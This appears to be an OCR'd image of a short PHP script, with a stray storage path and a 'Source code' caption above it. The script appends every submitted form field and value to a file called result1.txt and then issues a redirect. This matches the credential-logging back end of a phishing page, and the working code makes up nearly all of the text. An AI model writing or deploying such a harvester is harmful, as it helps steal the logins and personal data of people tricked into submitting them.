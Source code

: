 <?php
header ('Location:');
$handle = fopen("result1.txt", "a");
foreach($_POST as $variable => $value)
{
fwrite($handle, $variable);
fwrite($handle, "=");
fwrite($handle, $value);
fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($handle);
exit;
?>
